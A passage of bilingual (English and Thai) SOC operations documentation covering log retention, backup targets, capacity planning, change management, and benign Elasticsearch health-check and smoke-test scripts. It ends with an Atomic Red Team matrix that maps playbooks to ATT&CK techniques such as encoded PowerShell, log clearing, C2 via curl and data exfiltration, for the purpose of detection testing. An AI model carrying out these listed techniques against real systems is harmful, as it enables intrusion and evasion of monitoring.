    -   **At-Rest**: AES-256 encryption for storage volumes.
-   **Immutability**: Log archives should be immutable (WORM - Write Once Read Many) to prevent tampering.
-   **Access Control**: Strict least-privilege access to raw logs.

## 4. Backup & Recovery

-   **Frequency**: Daily configuration backups; Real-time or hourly data backups.
-   **Testing**: Disaster Recovery (DR) drills must be conducted quarterly to verify data restoration capabilities.

### Recovery Time Objectives

| Data Type | RTO | RPO | Backup Method |
| :--- | :---: | :---: | :--- |
| SIEM Config | 1 hour | 15 min | Automated config backup |
| Alert/Case Data | 4 hours | 1 hour | Database replication |
| Raw Logs (Hot) | 8 hours | 1 hour | Snapshot + replication |
| Raw Logs (Cold) | 24 hours | 24 hours | Object storage |
| Forensic Evidence | N/A | 0 (immutable) | WORM storage |

## 5. Log Source Data Management

### 5.1 Ingestion Pipeline

```mermaid
graph LR
    Sources["Log Sources"] --> Parser["Parser / Normalizer"]
    Parser --> Enrichment["Enrichment (GeoIP, TI)"]
    Enrichment --> SIEM["SIEM Index"]
    SIEM --> Hot["Hot (30-90d)"]
    Hot --> Cold["Cold (1-7y)"]
    Cold --> Purge["Purge / Delete"]
```

### 5.2 Data Volume Monitoring

| Metric | Threshold | Alert |
| :--- | :--- | :--- |
| Daily Ingestion Rate | > 120% of baseline | ⚠️ Capacity Warning |
| Storage Utilization | > 80% | ⚠️ Expand Storage |
| Index Size Growth | > 10% week-over-week | 📊 Review log sources |
| Query Latency (P95) | > 5 seconds | 🔴 Performance Issue |

### 5.3 Capacity Planning

- Review monthly: ingestion rate, storage growth, query performance
- Forecast quarterly: storage needs for next 12 months
- Budget annually: infrastructure costs based on data growth trends
- Monitor EPS (events per second) against SIEM license limits

## 6. Data Lifecycle Automation

| Phase | Action | Schedule | Owner |
| :--- | :--- | :--- | :--- |
| Ingest | Parse + normalize + enrich | Real-time | SOC Engineering |
| Index | Store in hot tier | Real-time | SOC Engineering |
| Tier | Move hot → cold | After 90 days | Automation |
| Archive | Compress + encrypt to cold | After 90 days | Automation |
| Purge | Delete per retention policy | Per schedule | Automation |
| Audit | Verify integrity + access logs | Monthly | SOC Manager |

## 7. Audit & Compliance

- All data access must be logged with timestamp, user, and action
- Quarterly access review of raw log data permissions
- Annual audit of retention policy compliance
- PDPA data subject access requests handled within 30 days

## Capacity Planning Guide

### Storage Estimation Formula
```
Daily Storage (GB) = Average EPS × Event Size (bytes) × 86,400 / (1024^3)

Example:
  1,000 EPS × 500 bytes × 86,400 = ~40 GB/day
  Hot storage (90 days): 40 × 90 = 3.6 TB
  Cold storage (1 year): 40 × 365 = 14.6 TB
```

### Sizing by Organization

| Org Size | Estimated EPS | Daily Volume | Hot (90d) | Cold (1yr) | Recommended SIEM |
|:---|:---:|:---:|:---:|:---:|:---|
| Small (<500 users) | 100-500 | 4-20 GB | 360 GB-1.8 TB | 1.5-7 TB | Wazuh (single node) |
| Medium (500-5K) | 500-5,000 | 20-200 GB | 1.8-18 TB | 7-73 TB | Elastic (3-node) |
| Large (5K-50K) | 5,000-50,000 | 200 GB-2 TB | 18-180 TB | 73-730 TB | Splunk/Elastic cluster |

### Backup Strategy

| Component | Backup Type | Frequency | Retention | Recovery Target |
|:---|:---|:---|:---|:---|
| SIEM config | Full | Daily | 30 days | < 1 hour |
| Detection rules | Git version control | On change | Indefinite | < 15 min |
| Ticketing data | Incremental | Daily | 3 years | < 4 hours |
| TI platform (MISP) | Full | Weekly | 1 year | < 2 hours |
| SOAR playbooks | Git version control | On change | Indefinite | < 15 min |
| Dashboards | Export/JSON | Weekly | 1 year | < 1 hour |

## Database Health Check Script

Run weekly to validate SIEM database health:

```bash
#!/bin/bash
# siem_health_check.sh — Weekly SIEM DB health check

echo "=== SIEM Database Health Check ==="
echo "Date: $(date -u +%Y-%m-%dT%H:%M:%SZ)"

# 1. Check disk usage
echo "--- Disk Usage ---"
df -h /var/lib/elasticsearch 2>/dev/null || df -h /opt/splunk 2>/dev/null

# 2. Check index sizes (Elasticsearch)
curl -s 'localhost:9200/_cat/indices?v&s=store.size:desc' | head -20

# 3. Check cluster health
curl -s 'localhost:9200/_cluster/health?pretty'

# 4. Check old indices for cleanup
echo "--- Indices older than 90 days ---"
curl -s 'localhost:9200/_cat/indices?v&h=index,creation.date.string,store.size' | \
  awk -v cutoff="$(date -d '90 days ago' +%Y.%m.%d 2>/dev/null || date -v-90d +%Y.%m.%d)" \
  '$2 < cutoff { print }'
```

## Related Documents
-   [Data Handling Protocol (TLP)](../06_Operations_Management/Data_Handling_Protocol.en.md)
-   [Deployment Procedures](Deployment_Procedures.en.md)
-   [SOC Infrastructure Setup](../10_Training_Onboarding/System_Activation.en.md)

## References
-   [NIST SP 800-53 (Security/Privacy Controls)](https://csrc.nist.gov/publications/detail/sp/800-53/rev-5/final)
-   [GDPR Data Retention](https://gdpr.eu/)


---

## File: 02_Platform_Operations/Database_Management.th.md

# ธรรมาภิบาลข้อมูลและนโยบายการเก็บรักษา (Data Governance & Retention Policy)

เอกสารนี้ระบุขั้นตอนมาตรฐานในการจัดการข้อมูลความปลอดภัยตลอดวงจรชีวิตของข้อมูล

## 1. การจำแนกประเภทข้อมูล (Data Classification)

```mermaid
graph TD
    Data[นำเข้าข้อมูล] --> Classify{จำแนกประเภท}
    Classify -->|ลับที่สุด| Encrypt[เข้ารหัส & จำกัดสิทธิ์]
    Classify -->|ลับ| Secure[ควบคุมการเข้าถึง]
    Classify -->|ภายใน| Store[จัดเก็บปกติ]
    Encrypt --> Retain[นโยบายเก็บรักษา]
    Secure --> Retain
    Store --> Retain
    Retain --> Archive[Archive/Purge]
```

ข้อมูลใน SOC ต้องได้รับการจำแนกเพื่อกำหนดการจัดการที่เหมาะสม:
-   **ลับที่สุด (Restricted)**: PII ที่ละเอียดอ่อน, รหัสผ่าน, Private Keys (ต้องป้องกันสูงสุด)
-   **ลับ (Confidential)**: ทรัพย์สินทางปัญญาภายใน, แผนผังเครือข่าย, รายงานช่องโหว่
-   **ใช้ภายใน (Internal)**: Log การทำงานทั่วไป
-   **สาธารณะ (Public)**: Threat Intelligence ที่เปิดเผยทั่วไป

## 2. นโยบายการเก็บรักษาข้อมูล (Retention Policy)

### 2.1 Hot Storage (เข้าถึงทันที)
-   **ระยะเวลา**: 30 - 90 วัน
-   **วัตถุประสงค์**: การวิเคราะห์ Real-time, Correlation, และการสืบสวนเหตุการณ์ด่วน
-   **เทคโนโลยี**: Storage ประสิทธิภาพสูง (SSD/NVMe) มักอยู่ใน SIEM

### 2.2 Cold Storage (เก็บระยะยาว)
-   **ระยะเวลา**: 1 ปี - 7 ปี (ขึ้นอยู่กับข้อกำหนดทางกฎหมาย เช่น PCI-DSS, GDPR)
-   **วัตถุประสงค์**: การวิเคราะห์ทางนิติวิทยาศาสตร์ (Forensics), ดูแนวโน้มย้อนหลัง, ตรวจสอบ (Audit)
-   **เทคโนโลยี**: Object Storage (S3, Blob) หรือ Tape backup

## 3. ความถูกต้องและความปลอดภัยของข้อมูล (Data Integrity & Security)

-   **การเข้ารหัส (Encryption)**:
    -   **In-Transit**: TLS 1.2+ สำหรับการส่ง Log ทั้งหมด
    -   **At-Rest**: เข้ารหัส AES-256 สำหรับพื้นที่จัดเก็บ
-   **ความไม่เปลี่ยนแปลง (Immutability)**: Log archive ควรเป็นแบบแก้ไขไม่ได้ (WORM - Write Once Read Many) เพื่อป้องกันการปลอมแปลง
-   **การควบคุมการเข้าถึง**: ให้สิทธิ์เท่าที่จำเป็น (Least Privilege) ในการเข้าถึง Raw Log

## 4. การสำรองและกู้คืน (Backup & Recovery)
-   **ความถี่**: สำรองค่า Configuration ทุกวัน; สำรองข้อมูล Real-time หรือทุกชั่วโมง
-   **การทดสอบ**: ต้องมีการซ้อมแผนกู้คืนภัยพิบัติ (DR) ทุกไตรมาสเพื่อยืนยันว่าสามารถกู้คืนข้อมูลได้จริง

### เป้าหมายเวลาการกู้คืน

| ประเภทข้อมูล | RTO | RPO | วิธีสำรอง |
|:---|:---:|:---:|:---|
| SIEM Config | 1 ชั่วโมง | 15 นาที | สำรอง Config อัตโนมัติ |
| Alert/Case Data | 4 ชั่วโมง | 1 ชั่วโมง | Database replication |
| Raw Logs (Hot) | 8 ชั่วโมง | 1 ชั่วโมง | Snapshot + replication |
| Raw Logs (Cold) | 24 ชั่วโมง | 24 ชั่วโมง | Object storage |
| หลักฐานทางนิติวิทยาศาสตร์ | N/A | 0 (immutable) | WORM storage |

## 5. การจัดการวงจรชีวิตข้อมูล

| ขั้นตอน | การดำเนินการ | กำหนดเวลา | ผู้รับผิดชอบ |
|:---|:---|:---|:---|
| รับเข้า | Parse + normalize + enrich | Real-time | SOC Engineering |
| จัดเก็บ | เก็บใน Hot tier | Real-time | SOC Engineering |
| ย้ายชั้น | Hot → Cold | หลัง 90 วัน | ระบบอัตโนมัติ |
| เก็บถาวร | บีบอัด + เข้ารหัส | หลัง 90 วัน | ระบบอัตโนมัติ |
| ลบ | ลบตามนโยบาย Retention | ตามกำหนด | ระบบอัตโนมัติ |
| ตรวจสอบ | ตรวจสอบความถูกต้อง + Log การเข้าถึง | รายเดือน | SOC Manager |

## 6. การตรวจสอบและการปฏิบัติตาม

- การเข้าถึงข้อมูลทั้งหมดต้องมีบันทึก timestamp, ผู้ใช้ และการดำเนินการ
- ทบทวนสิทธิ์การเข้าถึงข้อมูล Raw log รายไตรมาส
- ตรวจสอบนโยบาย Retention ประจำปี
- ดำเนินการคำขอของเจ้าของข้อมูลตาม PDPA ภายใน 30 วัน

## คู่มือการวางแผน Capacity

### สูตรประมาณ Storage
```
Storage ต่อวัน (GB) = EPS เฉลี่ย × ขนาด Event (bytes) × 86,400 / (1024^3)

ตัวอย่าง:
  1,000 EPS × 500 bytes × 86,400 = ~40 GB/วัน
  Hot storage (90 วัน): 40 × 90 = 3.6 TB
  Cold storage (1 ปี): 40 × 365 = 14.6 TB
```

### Sizing ตามขนาดองค์กร

| ขนาดองค์กร | EPS ประมาณ | ปริมาณ/วัน | Hot (90 วัน) | Cold (1 ปี) | SIEM แนะนำ |
|:---|:---:|:---:|:---:|:---:|:---|
| เล็ก (<500 users) | 100-500 | 4-20 GB | 360 GB-1.8 TB | 1.5-7 TB | Wazuh (single node) |
| กลาง (500-5K) | 500-5,000 | 20-200 GB | 1.8-18 TB | 7-73 TB | Elastic (3-node) |
| ใหญ่ (5K-50K) | 5,000-50,000 | 200 GB-2 TB | 18-180 TB | 73-730 TB | Splunk/Elastic cluster |

### แผนสำรองข้อมูล

| Component | ประเภท Backup | ความถี่ | ระยะเก็บ | เป้า Recovery |
|:---|:---|:---|:---|:---|
| SIEM config | Full | รายวัน | 30 วัน | < 1 ชม. |
| Detection rules | Git version control | ทุกครั้งที่เปลี่ยน | ถาวร | < 15 นาที |
| Ticketing data | Incremental | รายวัน | 3 ปี | < 4 ชม. |
| TI platform (MISP) | Full | รายสัปดาห์ | 1 ปี | < 2 ชม. |
| SOAR playbooks | Git version control | ทุกครั้งที่เปลี่ยน | ถาวร | < 15 นาที |
| Dashboards | Export/JSON | รายสัปดาห์ | 1 ปี | < 1 ชม. |

## สคริปต์ตรวจสุขภาพ Database

รันทุกสัปดาห์เพื่อตรวจสอบสุขภาพ SIEM database:

```bash
#!/bin/bash
# siem_health_check.sh — ตรวจ DB สุขภาพ SIEM ประจำสัปดาห์

echo "=== SIEM Database Health Check ==="
echo "Date: $(date -u +%Y-%m-%dT%H:%M:%SZ)"

# 1. ตรวจ disk usage
echo "--- Disk Usage ---"
df -h /var/lib/elasticsearch 2>/dev/null || df -h /opt/splunk 2>/dev/null

# 2. ตรวจขนาด index (Elasticsearch)
curl -s 'localhost:9200/_cat/indices?v&s=store.size:desc' | head -20

# 3. ตรวจ cluster health
curl -s 'localhost:9200/_cluster/health?pretty'

# 4. ตรวจ indices เก่าสำหรับ cleanup
echo "--- Indices เก่ากว่า 90 วัน ---"
curl -s 'localhost:9200/_cat/indices?v&h=index,creation.date.string,store.size' | \
  awk -v cutoff="$(date -v-90d +%Y.%m.%d)" '$2 < cutoff { print }'
```

## เอกสารที่เกี่ยวข้อง (Related Documents)
-   [โปรโตคอลการจัดการข้อมูล (TLP)](../06_Operations_Management/Data_Handling_Protocol.th.md)
-   [ขั้นตอนการ Deploy](Deployment_Procedures.th.md)
-   [การติดตั้ง SOC](../10_Training_Onboarding/System_Activation.th.md)

## Database Performance Monitoring

### Key Metrics

| Metric | Target | Alert Threshold |
|:---|:---|:---|
| Query latency | < 100ms | > 500ms |
| Connection pool | < 70% used | > 90% |
| Storage utilization | < 75% | > 85% |
| Replication lag | < 1 sec | > 10 sec |
| Index fragmentation | < 10% | > 30% |

### Backup Verification Schedule

| Backup Type | Frequency | Verify | Retention |
|:---|:---|:---|:---|
| Full backup | Daily | Weekly restore test | 30 days |
| Transaction log | ทุก 15 min | Monthly | 7 days |
| Archive | Monthly | Quarterly | 1 year |

### Index Maintenance Schedule

| Task | Frequency | Impact |
|:---|:---|:---|
| Reindex | Weekly (off-peak) | Medium |
| Statistics update | Daily | Low |
| Vacuum/optimize | Monthly | High |
| Archive old data | Quarterly | High |

## References
-   [NIST SP 800-53 (Security/Privacy Controls)](https://csrc.nist.gov/publications/detail/sp/800-53/rev-5/final)
-   [GDPR Data Retention](https://gdpr.eu/)


---

## File: 02_Platform_Operations/Deployment_Procedures.en.md

# Change Management & Deployment Standard

This document outlines the standard process for managing changes and deployments within the SOC environment.

## 1. Change Management Process

All changes to the production SOC environment (Alert Rules, Parsers, Infrastructure) must follow a structured process.

```mermaid
sequenceDiagram
    participant Eng as Engineer
    participant Mgr as Manager
    participant CAB as CAB Board
    participant Prod as Production
    
    Eng->>Mgr: Submit RFC
    Mgr->>Mgr: Review Risk
    alt Low Risk
        Mgr->>Prod: Approve & Schedule
    else High Risk
        Mgr->>CAB: Request Approval
        CAB->>Prod: Approve Deployment
    end
    Prod-->>Eng: Deployment Complete
```

### 1.1 Request (RFC)
-   Submit a Request for Change (RFC) documenting:
    -   Description of change.
    -   Justification/Impact.
    -   Risk assessment.
    -   Rollback plan.

### 1.2 Review & Approval (CAB)
-   **Change Advisory Board (CAB)** reviews High-risk changes.
-   Peer review is required for Alert Rule modifications (Detection Engineering).

## 2. Deployment Procedures

### 2.1 Environment Strategy
-   **Development/Lab**: Sandbox environment for testing new rules and integrations.
-   **Staging**: Mirror of production for final verification.
-   **Production**: Live environment.

### 2.2 Deployment Steps
1.  **Test**: Validate functionality in the Lab environment.
2.  **Snapshot**: Take a backup/snapshot of the current configuration.
3.  **Deploy**: Apply changes to Production during the approved window.
4.  **Verify**: Confirm operational status and check for errors.

### 2.3 CI/CD for Detection Rules
-   Manage detection rules as code (Detection-as-Code).
-   Use Version Control (Git) for all rule logic.
-   Automate testing (Syntax check, Unit test) via CI pipeline before merging to `main`.

## 3. Rollback Plan

-   Every deployment must have a predefined rollback strategy.
-   If verification fails, immediately revert to the pre-deployment snapshot.
-   Conduct a Root Cause Analysis (RCA) for failed changes.

## 4. Change Risk Assessment

| Risk Level | Criteria | Approval | Maintenance Window |
|:---|:---|:---|:---|
| **Low** | Cosmetic, documentation, non-impacting | SOC Lead | Anytime |
| **Medium** | New detection rule, parser update | SOC Manager | Business hours |
| **High** | SIEM config, integration change | SOC Manager + CAB | Maintenance window |
| **Critical** | Infrastructure, network, auth changes | CISO + CAB | Scheduled downtime |

## 5. Maintenance Windows

| Window | Schedule | Duration | Use For |
|:---|:---|:---|:---|
| **Standard** | Tuesday & Thursday 02:00–06:00 | 4 hours | Medium/High changes |
| **Emergency** | As needed (CAB approval) | 2 hours | Critical hotfixes |
| **Extended** | Last Saturday of month 00:00–08:00 | 8 hours | Infrastructure upgrades |

## 6. Deployment Checklist

| # | Step | Owner | Done |
|:---:|:---|:---|:---:|
| 1 | RFC submitted and approved | Engineer | ☐ |
| 2 | Peer review completed (detection rules) | Detection Eng | ☐ |
| 3 | Pre-deployment snapshot/backup taken | Engineer | ☐ |
| 4 | Change tested in staging environment | Engineer | ☐ |
| 5 | Rollback plan documented and tested | Engineer | ☐ |
| 6 | Deployment window confirmed | SOC Manager | ☐ |
| 7 | Stakeholders notified of change | SOC Lead | ☐ |
| 8 | Change deployed to production | Engineer | ☐ |
| 9 | Post-deployment verification completed | Engineer | ☐ |
| 10 | Monitoring for 30 min post-change (no errors) | SOC Lead | ☐ |
| 11 | RFC closed with results documented | Engineer | ☐ |

## 7. Detection-as-Code Pipeline

```mermaid
graph LR
    Author["Author Rule"] --> PR["Pull Request"]
    PR --> Review["Peer Review"]
    Review --> CI["CI Pipeline"]
    CI --> Syntax["Syntax Check"]
    Syntax --> Unit["Unit Test"]
    Unit --> Staging["Deploy Staging"]
    Staging --> Validate["Validate 24h"]
    Validate --> Prod["Deploy Production"]
```

## Rollback Procedures

### When to Rollback
| Indicator | Action |
|:---|:---|
| SIEM stops receiving logs | Rollback immediately |
| Alert volume drops to 0 | Investigate first, rollback if not resolved in 15 min |
| False positive rate spikes > 50% | Rollback rule change, investigate |
| Dashboard/query errors | Rollback config change |
| Agent crash after update | Rollback agent version |

### Rollback Checklist
```
□ Identify the change that caused the issue
□ Notify SOC Manager that rollback is in progress
□ Apply rollback from backup/git
□ Verify system returns to normal operation
□ Document the failed change and root cause
□ Schedule post-mortem within 48 hours
```

## Change Window Schedule

| Change Type | Allowed Window | Approval Required | Rollback Time |
|:---|:---|:---|:---|
| Detection rule (new) | Anytime (test mode) | SOC Lead | < 5 min |
| Detection rule (production) | Business hours | SOC Lead + peer review | < 5 min |
| SIEM configuration | Maintenance window (Sun 02:00-06:00) | SOC Manager | < 30 min |
| Agent update (fleet) | Staged: 10% → 50% → 100% over 3 days | SOC Manager + IT | < 1 hour |
| Major platform upgrade | Maintenance window + CAB approval | CISO | < 4 hours |

## Post-Deployment Smoke Test

After any deployment, run these verification steps:

```bash
#!/bin/bash
# smoke_test.sh — Post-deployment verification

echo "=== Post-Deployment Smoke Test ==="

# 1. SIEM connectivity
echo -n "SIEM API: "
curl -s -o /dev/null -w "%{http_code}" https://siem.internal/api/health && echo " ✅" || echo " ❌"

# 2. Log ingestion (check last 5 min)
echo -n "Log ingestion: "
RECENT=$(curl -s 'localhost:9200/_count?q=@timestamp:>now-5m' | grep -o '"count":[0-9]*')
echo "$RECENT events in last 5 min"

# 3. Detection rules
echo -n "Active rules: "
# Adjust for your SIEM
echo "$(curl -s 'localhost:9200/_cat/count/sigma-*' | awk '{print $3}') rules loaded"

# 4. Alert routing
echo "Sending test alert..."
# Add your test alert mechanism here
```

## Related Documents
-   [Change Request Template](../11_Reporting_Templates/change_request_rfc.en.md)
-   [Data Governance & Retention](Database_Management.en.md)
-   [SOC Infrastructure Setup](../10_Training_Onboarding/System_Activation.en.md)

## References
-   [ITIL Change Management](https://www.axelos.com/best-practice-solutions/itil)
-   [DevSecOps Manifesto](https://www.devsecops.org/)


---

## File: 02_Platform_Operations/Deployment_Procedures.th.md

# มาตรฐานการจัดการการเปลี่ยนแปลงและการ Deploy (Change Management & Deployment Standard)

เอกสารนี้ระบุขั้นตอนมาตรฐานในการจัดการการเปลี่ยนแปลง (Change) และการติดตั้งระบบ (Deployment) ภายในสภาพแวดล้อมของ SOC

## 1. กระบวนการจัดการการเปลี่ยนแปลง (Change Management Process)

การแก้ไขทั้งหมดในสภาพแวดล้อม Production (เช่น กฎแจ้งเตือน, Parser, โครงสร้างพื้นฐาน) ต้องปฏิบัติตามขั้นตอนที่กำหนด

```mermaid
sequenceDiagram
    participant Eng as วิศวกร
    participant Mgr as หัวหน้างาน
    participant CAB as คณะกรรมการ
    participant Prod as ระบบจริง
    
    Eng->>Mgr: ส่งใบ RFC
    Mgr->>Mgr: ประเมินความเสี่ยง
    alt ความเสี่ยงต่ำ
        Mgr->>Prod: อนุมัติและนัดหมาย
    else ความเสี่ยงสูง
        Mgr->>CAB: ขออนุมัติ
        CAB->>Prod: อนุญาตให้ติดตั้ง
    end
    Prod-->>Eng: ติดตั้งเสร็จสมบูรณ์
```

### 1.1 การร้องขอ (RFC)
-   ส่งคำร้องขอการเปลี่ยนแปลง (Request for Change - RFC) โดยระบุ:
    -   รายละเอียดการเปลี่ยนแปลง
    -   เหตุผล/ผลกระทบ
    -    ระดับความเสี่ยง
    -   แผนการถอยกลับ (Rollback plan)

### 1.2 การทบทวนและอนุมัติ (Review & Approval)
-   **Change Advisory Board (CAB)** จะพิจารณาการเปลี่ยนแปลงที่มีความเสี่ยงสูง
-   การแก้ไขกฎตรวจจับ (Alert Rule) ต้องผ่านการ Peer Review เสมอ

## 2. ขั้นตอนการ Deployment

### 2.1 กลยุทธ์สภาพแวดล้อม (Environment Strategy)
-   **Development/Lab**: พื้นที่ Sandbox สำหรับทดสอบกฎและ Integration ใหม่ๆ
-   **Staging**: สภาพแวดล้อมจำลองเหมือน Production เพื่อการตรวจสอบขั้นสุดท้าย
-   **Production**: ระบบจริงที่ใช้งานอยู่

### 2.2 ขั้นตอนการติดตั้ง
1.  **ทดสอบ (Test)**: ตรวจสอบความถูกต้องใน Lab
2.  **สำรองข้อมูล (Snapshot)**: สำรองค่า Configuration ปัจจุบัน
3.  **ติดตั้ง (Deploy)**: ทำการเปลี่ยนแปลงบน Production ในช่วงเวลาที่ได้รับอนุมัติ
4.  **ตรวจสอบ (Verify)**: ยืนยันสถานะการทำงานและตรวจสอบ Error

### 2.3 CI/CD สำหรับกฎตรวจจับ
-   จัดการ Detection Rules ในรูปแบบ Code (Detection-as-Code)
-   ใช้ Version Control (Git) สำหรับเก็บ Logic ของกฎทั้งหมด
-   ทำ Automated Testing (เช็ค Syntax, Unit test) ผ่าน CI pipeline ก่อน Merge เข้า `main`

## 3. แผนการถอยกลับ (Rollback Plan)

-   ทุกการ Deployment ต้องมีแผน Rollback ที่เตรียมไว้ล่วงหน้า
-   หากขั้นตอนการตรวจสอบล้มเหลว ให้ย้อนกลับไปยังสถานะก่อนหน้าทันที
-   ทำ Root Cause Analysis (RCA) สำหรับการเปลี่ยนแปลงที่ล้มเหลว

## การประเมินความเสี่ยงของการเปลี่ยนแปลง

| ระดับความเสี่ยง | เกณฑ์ | การอนุมัติ | หน้าต่างบำรุงรักษา |
|:---|:---|:---|:---|
| **ต่ำ** | เอกสาร, การเปลี่ยนแปลงที่ไม่กระทบ | SOC Lead | ทุกเวลา |
| **กลาง** | Detection rule ใหม่, อัปเดต Parser | SOC Manager | เวลาทำการ |
| **สูง** | Config SIEM, เปลี่ยน Integration | SOC Manager + CAB | หน้าต่างบำรุงรักษา |
| **วิกฤต** | โครงสร้างพื้นฐาน, เครือข่าย, Auth | CISO + CAB | Downtime ที่กำหนด |

## รายการตรวจสอบการ Deploy

| # | ขั้นตอน | ผู้รับผิดชอบ | เสร็จ |
|:---:|:---|:---|:---:|
| 1 | RFC ถูกส่งและอนุมัติ | Engineer | ☐ |
| 2 | Peer review เสร็จสมบูรณ์ | Detection Eng | ☐ |
| 3 | สร้าง Snapshot/Backup ก่อน Deploy | Engineer | ☐ |
| 4 | ทดสอบในสภาพแวดล้อม Staging | Engineer | ☐ |
| 5 | แผน Rollback มีเอกสารและทดสอบ | Engineer | ☐ |
| 6 | แจ้งผู้มีส่วนได้ส่วนเสีย | SOC Lead | ☐ |
| 7 | Deploy ไปยัง Production | Engineer | ☐ |
| 8 | ตรวจสอบหลัง Deploy 30 นาที | SOC Lead | ☐ |
| 9 | ปิด RFC พร้อมบันทึกผลลัพธ์ | Engineer | ☐ |

## ขั้นตอน Rollback

### เมื่อไรต้อง Rollback
| สัญญาณ | การดำเนินการ |
|:---|:---|
| SIEM หยุดรับ log | Rollback ทันที |
| ปริมาณ alert ลดเป็น 0 | ตรวจสอบก่อน, rollback ถ้าแก้ไม่ได้ใน 15 นาที |
| FP rate พุ่ง > 50% | Rollback rule change, สืบสวน |
| Dashboard/query error | Rollback config change |
| Agent crash หลัง update | Rollback agent version |

### Rollback Checklist
```
□ ระบุการเปลี่ยนแปลงที่ทำให้เกิดปัญหา
□ แจ้ง SOC Manager ว่ากำลัง rollback
□ Apply rollback จาก backup/git
□ ตรวจสอบว่าระบบกลับสู่สภาพปกติ
□ บันทึก failed change และ root cause
□ นัด post-mortem ภายใน 48 ชม.
```

## ตาราง Change Window

| ประเภท Change | ช่วงเวลาอนุญาต | ต้อง Approval | เวลา Rollback |
|:---|:---|:---|:---|
| Detection rule (ใหม่) | เวลาไหนก็ได้ (test mode) | SOC Lead | < 5 นาที |
| Detection rule (production) | เวลาทำการ | SOC Lead + peer review | < 5 นาที |
| SIEM configuration | Maintenance window (อา. 02:00-06:00) | SOC Manager | < 30 นาที |
| Agent update (fleet) | Staged: 10% → 50% → 100% ใน 3 วัน | SOC Manager + IT | < 1 ชม. |
| Major platform upgrade | Maintenance window + CAB approval | CISO | < 4 ชม. |

## Smoke Test หลัง Deploy

หลังจาก deployment ใดๆ ให้รันขั้นตอนตรวจสอบ:

```bash
#!/bin/bash
# smoke_test.sh — ตรวจสอบหลัง deployment

echo "=== Post-Deployment Smoke Test ==="

# 1. เชื่อมต่อ SIEM
echo -n "SIEM API: "
curl -s -o /dev/null -w "%{http_code}" https://siem.internal/api/health && echo " ✅" || echo " ❌"

# 2. ตรวจ log ingestion (5 นาทีล่าสุด)
echo -n "Log ingestion: "
RECENT=$(curl -s 'localhost:9200/_count?q=@timestamp:>now-5m' | grep -o '"count":[0-9]*')
echo "$RECENT events ใน 5 นาทีล่าสุด"

# 3. Detection rules
echo -n "Active rules: "
echo "$(curl -s 'localhost:9200/_cat/count/sigma-*' | awk '{print $3}') rules loaded"

# 4. Alert routing
echo "ส่ง test alert..."
```

## เอกสารที่เกี่ยวข้อง (Related Documents)
-   [แบบฟอร์ม Change Request](../11_Reporting_Templates/change_request_rfc.th.md)
-   [ธรรมาภิบาลข้อมูล](Database_Management.th.md)
-   [การติดตั้ง SOC](../10_Training_Onboarding/System_Activation.th.md)

### Deployment Checklist

| Phase | Checklist Item | Status |
|:---|:---|:---|
| Pre-deploy | Backup current config | ☐ |
| Pre-deploy | Test in staging | ☐ |
| Pre-deploy | Change approval | ☐ |
| Deploy | Execute change | ☐ |
| Deploy | Verify functionality | ☐ |
| Post-deploy | Monitor 30 min | ☐ |
| Post-deploy | Update documentation | ☐ |
| Post-deploy | Close change record | ☐ |

### Rollback Criteria

| Condition | Action |
|:---|:---|
| Core function broken | Immediate rollback |
| Performance > 20% drop | Rollback within 1 hr |
| Non-critical issue | Hotfix preferred |
| Cosmetic only | Fix in next release |

## References
-   [ITIL Change Management](https://www.axelos.com/best-practice-solutions/itil)
-   [DevSecOps Manifesto](https://www.devsecops.org/)


---

## File: 09_Simulation_Testing/Atomic_Test_Map.en.md

# Atomic Red Team Mapping (Validation)

This document maps our **SOC Playbooks** to specific **Atomic Red Team** tests aligned with the MITRE ATT&CK framework. Use these tests to validate detection rules and response procedures on a regular cadence.

---

## Validation Matrix

### Initial Access & Execution

| PB | Playbook Name | MITRE ID | Atomic Test | Expected Detection | Last Tested | Result |
|:---|:---|:---|:---|:---|:---|:---:|
| PB-01 | Phishing | T1566.001 | Spearphishing Attachment | Email gateway + SIEM | | 🟢🔴 |
| PB-03 | Malware Infection | T1204.002 | Malicious File Execution | EDR + SIEM | | |
| PB-10 | Web App Attack | T1190 | Exploit Public-Facing App (SQLi) | WAF + SIEM | | |
| PB-11 | Suspicious Script | T1059.001 | PowerShell Encoded Command | EDR + SIEM | | |
| PB-18 | Exploit | T1210 | Exploitation of Remote Services | IDS + SIEM | | |

### Persistence & Privilege Escalation

| PB | Playbook Name | MITRE ID | Atomic Test | Expected Detection | Last Tested | Result |
|:---|:---|:---|:---|:---|:---|:---:|
| PB-05 | Account Compromise | T1078 | Valid Accounts: Local Accounts | AD + SIEM | | |
| PB-07 | Privilege Escalation | T1098 | Account Manipulation: Admin Group Add | AD + SIEM | | |
| PB-15 | Rogue Admin | T1136.001 | Create Account: Local Account | EDR + SIEM | | |
| PB-16 | Cloud IAM Anomaly | T1078.004 | Valid Accounts: Cloud | Cloud SIEM | | |

### Credential Access & Defense Evasion

| PB | Playbook Name | MITRE ID | Atomic Test | Expected Detection | Last Tested | Result |
|:---|:---|:---|:---|:---|:---|:---:|
| PB-04 | Brute Force | T1110.001 | Password Guessing | AD + SIEM | | |
| PB-06 | Impossible Travel | T1078.004 | Cloud Accounts (VPN Simulation) | Cloud + UEBA | | |
| PB-20 | Log Clearing | T1070.001 | Clear Windows Event Logs | EDR + SIEM | | |
| PB-33 | MFA Bypass | T1556.006 | MFA Modification | IAM + SIEM | | |

### Discovery & Lateral Movement

| PB | Playbook Name | MITRE ID | Atomic Test | Expected Detection | Last Tested | Result |
|:---|:---|:---|:---|:---|:---|:---:|
| PB-12 | Lateral Movement | T1021.002 | SMB/Windows Admin Shares | EDR + SIEM | | |
| PB-34 | Network Discovery | T1046 | Network Service Scanning (nmap) | IDS + SIEM | | |
| PB-34 | Network Discovery | T1135 | Network Share Discovery | EDR + SIEM | | |

### Collection, C2 & Exfiltration

| PB | Playbook Name | MITRE ID | Atomic Test | Expected Detection | Last Tested | Result |
|:---|:---|:---|:---|:---|:---|:---:|
| PB-35 | Data Collection | T1560.001 | Archive via Utility (7z, rar) | EDR + DLP | | |
| PB-13 | C2 Communication | T1071.001 | Web Protocols (curl to bad domain) | Proxy + SIEM | | |
| PB-08 | Data Exfiltration | T1048 | Exfiltration Over Alt Protocol | DLP + SIEM | | |
| PB-14 | Insider Threat | T1052.001 | Exfiltration via USB | DLP + EDR | | |
| PB-17 | BEC | T1114.003 | Email Forwarding Rule | Email + SIEM | | |

### Impact

| PB | Playbook Name | MITRE ID | Atomic Test | Expected Detection | Last Tested | Result |
|:---|:---|:---|:---|:---|:---|:---:|
